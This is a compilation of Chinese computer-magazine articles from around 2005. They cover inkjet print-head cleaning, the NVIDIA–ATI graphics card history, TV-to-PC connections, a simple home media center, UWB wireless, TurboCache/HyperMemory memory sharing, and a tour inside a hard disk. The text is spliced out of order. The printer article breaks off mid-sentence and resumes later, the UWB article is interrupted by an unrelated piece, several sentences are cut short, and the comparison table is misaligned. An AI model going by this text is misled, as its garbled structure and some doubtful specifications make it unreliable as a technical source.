对于办公室使用的打印机来说，喷头堵塞的现象可能会少一些，所谓“流水不腐，户枢不蠹”，经常使用的话可以保证喷头的畅通。但是，办公室打印任务繁重，因此会出现打印过程中产生大量废墨的情形，这种现象主要集中在采用分体式设计的喷墨打印机上，究其原因，在于采用了分体式的结构：由于只须更换墨盒，喷头与墨盒的接合部位就容易进入空气，从喷头进入的空气很容易将比头发丝还要细的孔道“撑住”，从而使墨水不能畅通，造成打印中的断线现象，断线后的打印会使文字缺笔画、图片有横纹和严重的白线条现象。

面对这些问题，有些朋友可能会一味责怪厂商，并且尽可能把打印机搬到经销商或者维修商处进行修理，不然就是花钱更换。其实如果问题不太严重，我们尽可以自行处理。

方案有两种，一种是硬件清洗，一种则是软件清洗，从效果来看，前者会好一些。

### 用水彻底清洗法

- 1. 喷头清洗
先准备一台超声波清洗机，向清洗机内注入20毫升左右专用清洗液，注意要用溶剂墨水专用的。当然你也可以用无水酒精代替，但效果一定没有专用的清洗液好。

无论是哪种型号的打印机，先将喷头从打印机里面拉出来，取下小墨囊或墨盒，将打印头上面数据线上的保护盖取下，接着再用螺丝刀拧下固定打印头的螺丝，小心地拔下排线，摘下打印头。

将打印喷头放入超声波清洗机里面，以清洗液刚好没住打印头部分为准，液面高度大约0.5cm。盖上清洗机的盖子，按下启动键，机器便开始自动清洗。一般连续清洗不要超过三次，等一个小时后，再连续清洗三次。如果堵头很严重，可以让喷头在清洗机里面浸泡24小时左右。

当喷头完全通之后，取出打印头，晾干多余的清洗液或用电吹风小心地吹干打印头。注意必须要等打印头完全干了之后，再安装到打印机里面，否则极易烧毁打印头。安装到打印机里面之后，开机，进行软件清洗，进行打印喷嘴测试，一直到打印出完整的测试线为止。

如果问题不大，那么操作还可以简单一些，就是使用打印机的控制面板按键操作。多数喷墨打印机面板上都有清洗键。按住打印机面板上的清洗键3秒钟，打印机将会自动清洗打印头。有的打印机可能需要按组合键才能进行，也有的打印机面板根本没有按键，当然也就没有此项功能了。对于爱普生打印机来说，只要按住进纸/

### 新世纪战争，双雄的混战

在nVIDIA争夺3D加速卡之王桂冠时，老牌的几个图形芯片设计厂商开始跟不上nVIDIA和3Dfx两家新锐的步伐，逐步被市场淘汰。这其中，ATI公司成为唯一一个例外，当ATI意识到显卡未来的发展方向后，也以最快时间加入新一轮3D显卡市场的竞争。但面对TNT2等强劲对手，等待设计新一代芯片已经来不及了，于是，ATI设计出了一块到现在依然被经常提及的显卡一曙光女神ATI Rage Fury MAXX。这块卡可算ATI争夺3D加速之王的开山之作，卡上同时集成两块ATI当时最先进的RAGE 128Pro芯片，通过并行运算，达到相当高的性能。但是，曙光女神推出时，光辉已被nVIDIA的GeForce 256掩盖，GeForce 256这块跨时代的3D处理芯片第一次在民用级显示处理芯片中集成了T&L（光影转换处理技术），将CPU从复杂的光影处理中解脱出来，将家用电脑的3D处理能力大大的提升了一步。面对这样强悍的对手，曙光女神ATI Rage Fury MAXX由于成本高昂、性能不足、驱动不完善等原因，很快就退出了市场，并且连相应的Windows 2000驱动程序都没有。但曙光女神却让大家知道，3D加速卡市场的未来不仅有nVIDIA，还有ATI。在nVIDIA推出GeForce 256之后，ATI也推出了具有光影转换处理技术的Radeon 256显示核心，使用这块芯片的显卡有着比GeForce 256更多的功能以及更高的性能指标，但由于ATI的驱动还不够完善，使这块显卡还不足以抗衡GeForce 256，更不要说nVIDIA很快又推出了GeForce 2系列显卡。

在nVIDIA推出TNT2显示核心时，首次将同一构架的显示核心划分为不同级别，满足不同档次的用户，而到了GeForce 2推出后，nVIDIA这样的市场策略可谓做到了极致，基于同样GeForce2构架的产品有GeForce 2MX/MX200/MX400/Ultra/Ti/GTS等，面对如此全面的市场覆盖，Radeon 256虽然也衍生出Radeon SE/LE/VE等版本，但还无法撼动当时GeForce2系列的市场地位。

而随着微软推出新一代DirectX8接口，Direct3D又进入了一个发展时代，Pixel shade（像素着色）与Vertex shader（顶点着色）的引入为用户带来了一个更绚丽的3D世界，也给显卡厂商提出了更高的要求，此时，nVIDIA在领先显卡技术几年后，终于要与最强的对手ATI全面交火了。

在nVIDIA首先推出支持DirectX8的GeForce3系列显示核心后，ATI也推出了Radeon8500显示核心，ATI这款核心无论是性能还是功能上都可与GeForce3媲美，并还有不少超越的地方，而且ATI显卡驱动不完善的缺点在Radeon8500后开始不断改善。在Radeon8500推出不久，ATI做出了市场策略上的重大改变，全面开放显卡销售授权，顿时市面上的ATI显卡如雨后春笋般冒出，同时，ATI还重新调整了所有产品的编号和市场定位，与nVIDIA一样，让自己的产品覆盖了整个市场。面对ATI如此强大的攻势，nVIDIA用6个月为周期的研发时间很快推出了GeForce4系列显示卡进行反击并依然稳固了市场老大的地位，但不久之后，nVIDIA遇到了最大的挑战。

> (石头守卫)## 团结、统一！——让TV族与PC族全面‘通婚’

目前的电脑显示器“面子”多是17英寸或19英寸的，再大也难以突破21英寸。正因如此，在电脑显示器观赏大片，是无论如何也达不到家庭影院那样震撼的效果。可是，PC（电脑）强大的存储和媒体播放性能又是电视机所不能比拟的，如何将电视机那29英寸、34英寸、43英寸，甚至是51寸、61英寸、65英寸、70英寸的“大脸”与PC“双剑合璧”、扬长避短呢？下面，笔者将向诸位读者慢慢道来。

没有连接，何来整合？只有让TV与PC连成一气，才能奠定数字化媒体播放中心的基础。那么，如何让TV与PC连接起来呢？通常情况下，主要有这样以下几种方式：

### S-VIDEO 连接方式

利用电脑显卡上的S-VIDEO（或VIDEO RCA复合视频）视频输出端口（见图1）与电视机的S-VIDEO（或VIDEO RCA复合视频）输入端口相连（见图2）。其连接仅需有一根足够长（譬如3-5米）的S-VIDEO或者复合视频RCA延长连接线即可（见图3）。







目前在显卡上，RCA复合视频端口已经极为少见，通常均是S-VIDEO。这是由于AV接口传输的仍是亮度/色度（Y/C）混合的视频信号，需显示设备对其进行亮度/色度解码才能成像，这种先混合再分离的过程必然会造成色彩信号的损失，导致亮色串扰、清晰度降低等问题。而S端子接口将亮度信号Y和色度信号C分开传输，确保亮度信号不受色度信号的干扰，还原图像质量要好一些。

### D-SUB (VGA) 连接方式

目前主流的高清电视上（包括CRT、LCD、背投、等离子）均配备有VGA接口，因此可以直接将电脑显卡上的D-SUB（VGA）接口与电视机的VGA接口相连接，线缆不够的还需要一根D-SUB/D-SUB的延长线（见图4）。



如果显卡既有DVI输出端口，又有D-SUB输出接口，那么我们可以用一个“DVI转D-SUB转接头”将DVI-I接口输出的信号转换成VGA信号，输出到电视机上（见图5）。另外，如果你的液晶显示器正在使用的是DVI接口，那么我们可以省掉DVI转D-SUB的转接头，直接将VGA信号输入到电视机的VGA接口中，从而实现双显示模式。



### DVI 连接方式

对于支持DVI输入方式的电视机，我们可以直接将显卡的DVI信号通过延长的DVI-I Dual数字视频连接线（见图6），将DVI信号输出到电视机的DVI接口上。如果你的显示器是D-SUB接口，可直接连接显卡D-SUB端口。然而，当显示器和电视机均为DVI接口时，那么可在支持双DVI输出端口的显卡上，用一根DVI-I Dual数字视频连接线来连接电视机的DVI端口。



DVI采用一个近似长方形的18针连接头单向传输数字视频信号，传输速度高达约8GBPS(165MHZ x 24bit x 2)，适合传输无压缩、高清清晰度视频信号。最高支持QXGA(2048 x 1536@75Hz)格式。另外DVI接口实现了真正的即插即用和热插拔，免除了在连接过程中需关闭计算机和显示设备的麻烦。现在大多数数字显示设备和主流显卡都支持该接口。

DVI接口分DVI-D和DVI-I两类，相互之间不能直接通用。如果你的显卡采用的是DVI-D接口，而你的液晶电视是DVI-I接口，那么你还需要另配一个DVI-D转DVI-I的转接头或转接线才能正常连接，反之亦然。

### HDTV一色差信号(YPbPr)连接方式

利用显卡输出的色差信号与电视机的色差分量端口进行连接。具有色差(YPbPr)输出功能的显卡，通常要通过显卡上9针的视频输出端口用专门的连线转接为S端子、RCA和色差端子(见图7)。色差端子采用3条分离的信号线传输信号。另外，有些显卡没有专门的9针视频输出端口，而是用专用转接线将D-SUB（或DVI接口）转换成YPbPr接口（见图8）。





目前主流的色差输出(YPbPr)端口是将模拟的Y、PB、PR信号分开（见图9），使用三条线缆来独立传输。YPbPr接口可以看作是S端子的扩展，与S端子相比，要多传输PB、PR两种信号，避免了两路色差混合解码并再次分离的过程，也保持了色度通道的最大带宽，只需要经过反矩阵解码电路就可以还原为 R G B 三原色信号而成像，这就最大限度地缩短了视频源到显示器成像之间的视频信号通道，避免了因繁琐的传输过程所带来的图像失真，保障了色彩还原的准确，目前几乎所有大屏幕电视都支持色差输入。

针对目前不少HDTV 电视的上市，不少显卡均提供了HDTV 的支持，nVIDIA 阵营有GeForce 6800系列、GeForce 6600系列、GeForce 6200系列，ATi 阵营有Radeon 8500系列、Radeon 9800系列、Radeon 9700系列、Radeon 9600系列、Radeon 9500系列，ALL-IN-WONDER 系列中的8500、9600、9700、9800。对于新一代镭卡，ATi 为HDTV 硬件视频解码提供的解决方案是VIDEOSHADER 技术，其从低端的X300SE、X300、X600到中高端的X700……X850 XT PE均全线支持此技术。另外S3 Delta Chrome S8和XGI的V8、V5、V3XT、V3系列也支持HDTV 输出。因此，在以上这些显卡上，只要有一根9 针的视频专用连线，即可实现HDTV高清信号的输出。因此，不少显卡也附带了这根9 针的视频专用连线。













### HDMI 的连接方式

在目前一些高端的高清电视上开始出现了一个叫做HDMI (Hi-Definition Multimedia Interface）的接口（见图10），这种接口通过一条连线就能支持数码视频和数码音频的输出。其以无压缩技术传送全数码信号，最高传输速度达3.95Gbps，并可支持八声道96kHz或单声道的192kHz数码音频传送。HDMI与DVI一样，传输的都是数字视频信号，然而HDMI相对于DVI来说，画质更好，而且连接线的长度限制也比DVI宽松得多，通常情况下，在20米左右，也不会影响画质。由于电视显卡没有HDMI接口，因此我们可以用专用的DVI转HDMI转接头（见图11）来连接电视机的HDMI接口，从而实现更长距离的数字视频传输。

如果显卡只有一个D-SUB (VGA) 接口，该如何连接电视？

针对这种情况，我们可以使用视频转换器，这里笔者给大家介绍一款名为天敏显像者II的视频转换器（见图12、13）。此视频转换器所支持的最高分辨率为1600 x 1200，支持画面的尺寸调整功能和方向控制调整、放大功能、提供16级的锐度及闪烁设定调整功能、提供64级的亮度、对比度、色度、饱和度等设定调整，提供红外线遥控功能，遥控器上具有电源、影像模式标准、方位调整、重置菜单、画面暂停、图像放大等功能键。具备屏幕显示调整操作（OSD）功能。具备有D-SUB、S-VIDEO、复合视频的输出。

(王军)

### 驱动工具清洗法

软件清洗方法，主要是利用打印机属性里的清洗功能，根据提示一步一步操作就可以了。以爱普生喷墨打印机为例，我们来了解一下软件清洗喷头的方法。

第一步：进入打印机资料夹中。在任务栏上依次点选“开始→设置→打印机”，在打印机图标上，右键点击，选择“属性”，进入打印机的属性菜单。

第二步：进入“应用工具”标签页，按一下“应用工具”标签（见图1）。



第三步：首先检查一下喷头是否真的堵住了，按一下“喷嘴检查”按钮（见图2）。

## 构建最简单的家庭媒体中心

电脑虽可以容纳更多的影片、音乐等娱乐内容，但电脑的操作对于部分家庭成员来说，还是很困难的。如何用一个遥控或者单用鼠标就能完成所有的播放操作呢？家庭媒体中心的概念应声而出！它给不太会操作电脑而又希望在电脑上观赏图片、听音乐、看电影、看影碟、看电视的家庭成员（特别是家里的老人和小孩）提供了一个极易上手的平台。为此，当前不少品牌机均以媒体中心作为卖点，倾力宣传自己的家庭媒体中心，以期让更多不熟悉电脑的家庭成员，也能轻易的像操作家用电器那般简单地播放电脑中的各种媒体资源。对于家庭媒体中心的构建，微软公司也及时提出了自己的Windows XP Media Center Edition 2005方案。然而，由于该软件本身的成本不低，因此仅仅在少数台式品牌机上可以见到。其实我们完全可以寻求其他途径来实现媒体中心的大部分常用功能，构建一个最简单的、最容易实现的家庭媒体中心。这里，笔者就以Windows XP操作系统、天敏10Moons媒体中心和ATi Radeon 9000显卡为例，给大伙儿来介绍一下构架过程。

编者注: TV 与 PC 的连接，可参考前面《团结、统一！让 TV 族与 PC 族全面“通婚”》一文介绍的方法。

### “唤醒”显卡的视频输出

首先，我们进入“控制面板”，双击“显示”图标，然后在“显示属性”中，单击“设置→高级→显示”，进入催化剂驱动的“显示”控制面板（见图1）。在这个时候，由于我们没有“唤醒”视频输出，因此在右边的“TV”框，只能看到灰色不可选状态下的显示TV属性按钮。同时还有“没有连接”的提示。单击“疑难解答”，选中“强制检测我的TV”，然后单击“应用”，使之生效（见图2）。返回“显示”控制面板，将“方案”中的“默认单一显示”切换为“在显示器间切换”，然后再单击“应用”按钮，我们就会发现“TV”按钮旁边的电源按钮已经处于红色状态了（见图3）。







单击这个“红色电源”按钮即可开启显卡的视频输出。最后，我们在催化剂驱动面板的“显示”控制面板中，单击“确定”按钮，暂时结束我们在催化剂驱动面板中的设置。

咦？既然已经“唤醒”了显卡的视频输出，为什么在电视机屏幕上依然是漆黑一片呀？不会是显卡有问题吧！呵呵！您千万别慌！接着看下去就知道了。

### 让电脑桌面在 TV 屏幕上“闪亮”登场

通过操作系统的“显示属性”面板，我们在“显示”栏中，将“1. Radeon SERIES 上的（单个监视器）”切换为“2. Radeon SERIES 上的（多个监视器）”。记住一定要勾选面板里的“将 Windows 桌面扩展到该监视器上”选项（见图4）。好了，轻轻单击一下“应用”按钮。看看在电视机屏幕上是不是已经现出 Windows XP 久违的桌面了？不过，这时在 TV

### 对 TV 上的显示效果不太满意？

对于一台普通的电视机来说，我们只需将其分辨率设为 640 × 480 就可以了。而如果我们是将视频信号输出到高清晰的背投电视、等离子电视或投影仪上，那么我们可以选择更高的显示分辨率。对于颜色质量来说，我们将其设定为 16 位色，因为这样的颜色质量与电视的显示要求更接近！在完成这几个最基本的设置之后，为了更好的控制视频输出信号，以获得更佳的显示效果，我们可以通过单击‘显示’控制面板中的‘TV’按钮来进行设置（见图 5）。ATi 显卡的催化剂驱动为此提供了丰富的调节功能，这里我们可以调节视频输出信号中的对比度分量、色饱和度分量和屏幕的大小、屏幕的中心位置等参数。另外，对于电视机中的不同特性，催化剂驱动还提供了清晰度、闪烁消除、视频制式等调节参数，大家可以根据自己的需要进行调节，直到满意。



### 利用‘媒体中心’来轻易点播媒体资源

这里笔者用的是‘天敏媒体娱乐中心’，这是天敏公司为天敏电视卡专门打造的一款媒体中心软件。经过实验，也可以在没有天敏电视卡的机器上安装使用。不过就不能使用‘我的电视’和‘遥控’模块，除此之外，该媒体娱乐中心的其他功能均可以正常的使用。



这里我们以播放电脑中的视频文件（譬如网上下载的电影）为例，介绍一下它的使用方法。首先，单击‘添加’按钮，从硬盘上找到视频文件（见图 6），将其添加到播放列表中。之后，我们从播放的列表中找到此视频文件，双击就可以播放了。对于添加起来的媒体文件，天敏媒体娱乐中心会将其自动‘记忆’下来。这个记忆功能很有用，特别是对于不会电脑的用户来说，我们只需要将硬盘上的各种媒体资源（图片、音乐、视频），通过添加的方式添加进来。今后老年用户就可以用鼠标或者遥控很方便的进行控制操作，欣赏各种影片、图片和音乐了（见图 7）。如果你是天敏电视卡等产品的用户，还可以用其自带的遥控实现全部功能。 怎么样？是不是很简单呢！这一切，都仅仅只需要你的显卡支持双屏输出功能，并搭配一款具备‘媒体中心’功能的软件即可。我们完全可以用更简单的方式解决各种媒体的播放问题，从而让电脑的操作变得与家电一样的简单。



### 小知识

如果我们没有电视卡，或者电视卡并没有配备遥控器，但又想使用遥控来进行操作的话，该怎么办呢？其实也不难，因为我们还可以到市场上购买一些红外遥控和接收装置套装来实现。这些套装一般都有一套称为万能遥控器的遥控器和一个 USB 接口的红外线接收装置，并且提供一套驱动及控制程序。不过，这些套装在国内还比较少见，要买的话，大家恐怕就需要到 IT 市场去淘一淘了。除了这些套装之外，你还可以利用带红外的智能手机、PDA，又或者是利用家里某个功能按键特别多的电视（DVD）遥控器来搭配一个 USB 红外收发装置来实现。一般来说，红外收发装置都带有相应的驱动软件，如果没有的话，网上也有许多类似的软件，如《PC 红外遥控器》、《UCIR 等》。受篇幅所限，具体的操作在这里就暂时不说了。

### 火速链接

- 《DIY 新主张 给电脑组装一个遥控器》http://bbs. zol.com.cn/index20050823/index_249_953.shtml
- 《自制电脑红外线收发器（主板式 IrDA）》http:// www.mccchina.com/Article/Interface/IrDA/200411/177. html
- 《超强 DIY 改造 给你的电脑加装遥控器》http:// www.mccchina.com/Article/Interface/IrDA/200411/180. html

## 什么是 UWB 超宽带技术

不知道从什么时候开始，无线技术已经渐渐地渗透到我们生活的每一个角落，从无线电视，无线电话，到无线网络，就连电脑数码设备的无线化，也因为有蓝牙的出现而发展迅速。不过面对我们日益增长的对无线技术的需求，现有的无线技术从速度、安全性等方面都已经显得不足了。而就在这个时候，一种新型的，具有强大的传输速率的超宽带技术：UWB，出现在我们的面前。UWB 究竟是何方神圣呢？它和我们现有的无线网络技术相比有什么优势？它能够给我们的生活带来些什么改变呢？

在告诉你什么是 UWB 之前，先让你设想一下：在倒塌的房子面前，消防队员手持着一个特殊的‘探测器’，可以探测到瓦砾深处的动静，还能够成像；一台摄像机，不需要用导线和电视机相连，一边拍摄着，另外一个房间的电视机或者电脑上已经实时显示出拍摄的图像了；一个多媒体公司里面的无线网络，传输大型的影音数据根本不需要用什么传输介质，只是简单地‘复制’、‘传输’，几十 G 的数据瞬间便传输完成了。

其实超宽带技术早在 60 年代就已被推出，但一直用于军用雷达系统，在 2002 年才将其解除禁令公开民用。不过为避免对军用雷达的干扰，美国联邦通讯委员会（FCC）规定从 3.1GHz 到 10.6GHz 之间的 7.5GHz 的带宽频率作为通信设备所使用的频率范围，因此 UWB 目前的发射功率受到了限制，传输距离大概只有 10 米左右。UWB 技术与现有的无线通信技术有着本质的区别。常规的蓝牙、WLAN 等无线传输技术均以连续性的正弦无线电波作为数据处理载体，所以这类无线技术很难实现 480Mbps 的数据传输率。而超宽带的传输将会把调制信息过程放在一个非常宽的频率带上面进行，令其每秒钟能发送多达 10 亿个脉冲信号，并且以这一过程中所持续的时间，来决定带宽所占据的频率范围，从而获得更高的数据传输率。因此 UWB 技术的最大数据传输速率可以达到几百 Mbps，而现在的 802.11 无线技术，最多也只有每秒 54Mbps，相比之下两者的高低立现。

## 新旧无线技术对比

现在流行的无线技术主要就是 802.11x、蓝牙技术和 HomeRF，UWB 和它们相比有着技术上面的先天优势，那么是不是就等于说蓝牙和 802.11 技术将会被完全淘汰呢？

- 1. UWB VS 802.11x
802.11x 是最早的无线局域网标准，它主要用来解决办公室局域网和校园网中用户与用户终端的无线接入，其物理层最高速率 54Mbps，传输层最高速率 25Mbps，而用作无线局域网时的通信距离可以达到 100 米。UWB 技术的传输速率非常高，可以发挥出高达数百 Mbps 的传输性能，但是由于功率受到了限制，因此 UWB 只能在 10 米以内的范围通信，距离越远速度越慢越不稳定，当距离超过了 20 米，反倒就没有 802.11x 技术那么好了。

- 2. UWB VS 蓝牙
现在蓝牙技术在手机、PDA 等数码设备上都得到了广泛应用，从距离上面来看，蓝牙同样只有 10 米左右的有效距离，从速率来说，蓝牙理论传输速度只有不到 1Mbps，因此也难怪外面到处都说 UWB 就是‘蓝牙杀手’。不过由于蓝牙的工作频率是 2.4GHz 频段，无需经过申请即可使用，而且蓝牙经过多年的发展，已经具备了完善的通信协议，兼容性方面非常不错，UWB 目前还是刚刚起步。因此 UWB 立刻取代蓝牙是不可能的，反倒是目前有趋势是蓝牙要和 UWB 集合在一起推出新一代的蓝牙技术，相信这个过不了多久我们就能看到了。

- 3. UWB VS HomeRF
HomeRF 就是家庭射频标准了，是在家庭范围内使计算机与其他电子设备之间实现无线通信的开放性工业标准，它是 802.11x 与 DECT 的结合，使用这种技术能降低语音数据成本，工作在 2.4GHz 频段；同步支持 4 条高质量语音信道，但是 HomeRF 的传输速率只有 1M~2Mbps，而且支持 HomeRF 技术的企业很少，因此虽然 HomeRF 的传输距离同样要比 UWB 远，但是传输速度和 UWB 是无法比拟的。

## TurboCache & HyperMemory 延续性价比神话

在市场上随意翻看一种PCI Express接口的显卡说明书，总能看到NVIDIA TurboCache（增强型缓存）或ATI HyperMemory（内部帧缓存）字样，凭借拥有更大带宽的PCI Express接口，TurboCache & HyperMemory这种共享系统内存的延伸技术焕发无穷的威力。

虽然现在显卡市场降价一片，但即使这样一块中低端普通显卡价格依然和一块主板价格不相上下，许多用户由于经济原因不得不选择了显示性能低下的集成显卡主板，追究显卡昂贵的原因，显卡上动辄256MB的显存恐怕是支起价格的最大因素。一方面为了缩减独立显卡成本，另一方面为了替代主板集成显卡，NVIDIA TurboCache（以下简称TC）和ATI HyperMemory（以下简称HM）诞生了。

说了这么多，想必大家现在都很想了解TC和HM技术，正巧显卡总统——GPU图形处理器正在召开新闻发布会，我们去听听它的介绍吧！

Hi，我是GPU图形处理中央芯片，显卡世界的Boss老大，在3D性能强劲的独立显卡上我占重要位置，显卡上的显存是我的得力干将、左膀右臂，替我暂时储存要处理的图形数据，一般来说显存越大我就越能发挥出自己的强劲性能，可现在显存颗粒的价格可不便宜呀，于是我也只能暂且委屈一下自己。大家都知道在主板上也有一个内存储设备，它是闪存的近亲名叫内存，比起显存来，它可是价格便宜量又足，听说现在都有1GB容量的了，其实在很早的时候我就对它念念不忘了，早欲收入帐下委以重任，可显卡AGP接口的数据传输带宽实在是让我心有余而力不足，眼睁睁地看着那块大肥肉而无福消受，真是愁煞人呀！还好天无绝人之路，随着显卡PCI Express接口的普及，我的路(带宽)不但越走越宽而且还是双车道了(数据双向同时传输)，于是我的两位大东家NVIDIA和ATI纷纷推出了TurboCache和HyperMemory技术，他们的这项技术可以让我充分利用这道宽阔大道来做以前我想做的事——远征系统内存，当然内存可是计算机系统的核心部件，我可不敢和系统老大哥CPU明抢，我只等CPU用不了这么多内存或我急需使用大量内存来渲染图像时才“借”用这些内存精兵，这样既可以让显卡削减部分显存，精简了机构，降低成本，又不影响计算机系统整体的稳定和性能，一举两得，何乐而不为呢(见图1、图2)？！





GPU大哥话音刚落，就有记者发问道：利用TC和HM技术是不是就完全抛弃板载显存了呢？

GPU立即回答道：如果独立显卡没有了板载显存，那与集成显卡还有很大的区别吗？！当然身为独立显卡显示核心的我能够通过一个存储控制器来进行系统内存的动态分配，那么我的皇宫建筑(显卡)制作工艺相比以前的AGP显卡要简单些，尤其是显存颗粒精简不少，不信你到市场上去看看，利用TC和HM技术的显卡身材是不是苗条了许多，但要注意上面依然板载有显存颗粒。

这是因为只有当显卡板载显存颗粒容量不能满足渲染图像需要时才会去调用系统内存，这样可以防止影响计算机系统性能，而显卡被精简显存颗粒一点也不影响显示性能，如NVIDIA于2004年12月发布的6200TC系列，显存分为32bit 16MB和64bit 64MB两种，不过6200TC系列在性能上与显存容量为128bit 128MB的标准版6200旗鼓相当，从这点大家也看得出TC和HM技术的先进之处。

又有记者问道：TC和HM技术最应该注意什么？

GPU回答说：由于什么时候该调用系统内存，调用多少系统内存即系统内存的动态调用分配是此两项技术的核心，那么包含此技术的显卡驱动程序便成为重中之重，随时关注官方最新显卡驱动程序及时换用最新驱动程序是提升显卡性能的不二之道。比如最近ATi催化剂5.7版主要针对显存64MB和128MB的显卡加入了HyperMemory技术支持，在3DMark05测试中，性能提高5-15%，Half-Life II半条命2游戏，1600x1200 4xAA 8xAF模式下，性能提高25-60%，只要升级显卡驱动便可获得如此性能飙升，还不快来！

（木头人）

同日而语，相信UWB将会令HomeRF的日子很难过。

## UWB 技术给我们带来了什么？

在UWB进入家庭应用的时候，它作为一种高速、低成本和低功耗的无线通信方式虽然通信距离很短，但是由于它本身的带宽很宽，在接入上一级网络的同时还可以作为下一级网络的网关，从而使得整个家庭组成一个星型网络。它使用户无需通过错综复杂的线路来连接各种家庭设备，包括大显示屏、机顶盒、扬声器、电视、数字视频录制器、电脑/手提电脑、数码相机和智能手机等设备。借助UWB，用户甚至没有必要将所有这些设备都安装在同一个房间内。今天的UWB技术已经能够实现如下的功能：

-   1. 无需使用电缆即可建立家庭影院，并且将内容传输到房屋中的任何一台电视机。
-   2. 将图像从数码相机即时传输到个人电脑/手提电脑、电视或其他显示设备上，对于大容量的图片传输而言，UWB的速率无疑很具有优势。
-   3. 现在很多人都有MP3随身听，UWB能够让MP3随身听和电脑、家庭影院等设备高速“互通有无”。
-   4. 在家里能够无线玩游戏机，多个操纵杆、显示设备、游戏设备无线连接。
-   5. 无线连接多种工作设备，例如手提电脑、PDA和投影机，办公室的人员能够坐在会议室中，无线共享带有图像和音频的演示。



随着消费电子的高速发展，数字电视、音频和视频接收机、DVD、卡拉OK、MP3播放器和数码相机等娱乐设备必将进入千家万户。可以想象，在不久的将来UWB技术将带给我们更多的无线享受。

## UWB 产品一览

虽说UWB技术还没有普及到商用之中，但是已经有不少产品已经开始结合UWB技术了，说不定过一段时间之后这些产品就会出现在我们的身边哦！

-   1. 支持 UWB 的海尔电视机
从2005年下半年开始，海尔就开始在中国和美国销售这种液晶UWB电视。它的大小是37英寸，支持1080i分辨率的HDTV显示，具备组合端子和DVI端子。所配UWB的最大数据传输速度为114Mbit/秒，可多信道同时无线传输HDTV影像。2005年的“飞思卡尔技术论坛”上面，技术人员展示了利用UWB从媒体服务器发送20Mbit/秒HDTV影像视频流的演示。
-   2. UWB手机
在美国拉斯维加斯举办的“2005 International CES”展会上，飞思卡尔公司展出了支持UWB规格的手机样品，它是和摩托罗拉共同开发的，以摩托罗拉的E680为样本，最大数据传输速度为100Mbit/秒。机身内部配备了飞思卡尔的SD卡型UWB模块以及天线部件，内置可拍摄VGA照片的相机模块，而且无论照片拍摄了多大，它都可以瞬间完成由手机到笔记本电脑之间的照片传输。据飞思卡尔介绍，除摩托罗拉外，该公司还在与多家手机厂商进行联合开发，而且2006年前后此类手机即可上市。
-   3. UWB网卡
要说到无线技术，相信很多人都会联想到了网卡，而UWB技术用在短距离的无线局域网，具有很强的诱惑力，大家可以想象一下，在一个直径10米的房间里面（相信大多数人家里都没那么大）你随时可以使用超宽带来上网，具有极高的速度，而且又不需要在家里面铺设乱七八糟的网线。在2005年的英特尔春季信息技术峰会（2005IDF）上面，展出了难得一见的UWB网络适配器（网卡），相信距离UWB网络真正进入千家万户的一天不远了。

| IEEE802.11x | 蓝牙技术 | HomeRF | UWB |
| :--- | :--- | :--- | :--- |
| 传输速率 | 54Mbps | 小于1Mbps | 1-2Mbps | 可高达500Mbps |
| 通信距离 | 10米-100米 | 10米 | 50米 | <10米 |
| 应用范围 | 无线局域网 | 计算机等设备和办公室设备互连 | 家庭语音和数据流 | 近距离多媒体 |
| 终端类型 | 笔记本，台式电脑，掌上电脑和因特网网关 | 笔记本，移动电话，掌上电脑，移动设备 | 笔记本，无线电话，无线音响，移动设备 | 无线电视，DVD，高速因特网网关 |

（水月子）

## 硬盘内部世界漫游记





机器上的硬盘最近老是“嗒嗒”作响，于是拆下来准备看看究竟是怎么回事，但是看着拆下来的硬盘，不就是电路板、接口、盘体以及外壳四大块嘛，看起来太简单了。由于没有事情可做，看着看着竟然睡着了，正迷糊间突然跑来一个蓝精灵朝着我挥了挥手，“跟我来看看硬盘为什么会嗒嗒作响吧！”我没有感到丝毫的奇怪，但是蓝精灵却从怀中掏出手表看了一下时间，又对着我说：“快点！”

我身不由己地跟着它通过硬盘面板标签边上的透气孔进入了它的内部，奇怪，我竟然变小了。不一会儿，我和蓝精灵站到了一个圆形光亮的镜面上，蓝先生问我：“知道为什么硬盘会嗒嗒响吗？”我赶紧摇了摇头，蓝精灵摆了摆它的那只小手，“就知道你不了解，还是我来解释给你听吧！”

“你和我现在所站的镜面叫做盘片（见图1），实际上就是硬盘存储数据的载体，它的样子与我们所用的光盘有些类似，中间也有孔，不过盘片的孔中间是主轴。硬盘的盘体由多个重叠在一起并由垫圈隔开的盘片组成，硬盘容量的大小主要由单个盘片的容量来决定。以一块容量为80GB的硬盘为例，如果它的单个盘片容量为20GB，则需要4个盘片；如果单个盘片容量为40GB，则这块硬盘只需要2个盘片。”

“盘片是表面极为平整光滑且涂有磁性物质的金属或玻璃磁盘，它们通过表面的磁性物质紧紧抱在一起。这种涂有特殊物质的金属磁盘具有很高的记录密度和安全性能。目前市场上主流硬盘的盘片多数都是由金属薄膜磁盘构成，这种金属薄膜磁盘较之普通的金属磁盘具有更高的记录数据的能力！除金属薄膜磁盘以外，还有一些硬盘使用玻璃作为磁盘基片。与金属薄膜磁盘相比，用玻璃作为盘片有利于把硬盘盘片做得更平滑，单位磁盘密度也会更高，同时由于玻璃的坚固特性，新一代的玻璃硬盘在性能方面也会更加稳定。”

“目前，硬盘盘片记录数据的方式是不相同的，有的是采用单面记录数据，有的则是用双面记录数据。同样，一张硬盘盘片的单面也是由多个不同的层复合而成的，最上面是由有机氟高分子材料组成的润滑层，保证磁头更加平稳地运行，接下来是由坚硬的碳材料构成的保护层，保护数据层不受物理损坏。这种由碳材料组成的保护层通常又叫石墨图层，它会因为自身的属性让盘片发出五彩缤纷的光来。”

“小子，你得注意噢，玻璃磁盘的坚固并不是说它可以任意在地上摔，而是相对于稳定的工作环境而言的。”蓝精灵先生扫了我一眼，没等我有所反应，又继续说了下去，“一张盘片，根据容量的大小可以划分成多个扇区，这些扇区就像人们住的房子，不同的是里面住的是各种各样的数据！”

“那数据是怎么写到磁盘上的呢？”我忍不住插了一句。

“问得好，跟我来！”蓝先生拉着我向前走了好长一段距离，眼前忽然变得拥挤起来，有一个类似于吊车似的铁臂耸立在面前。

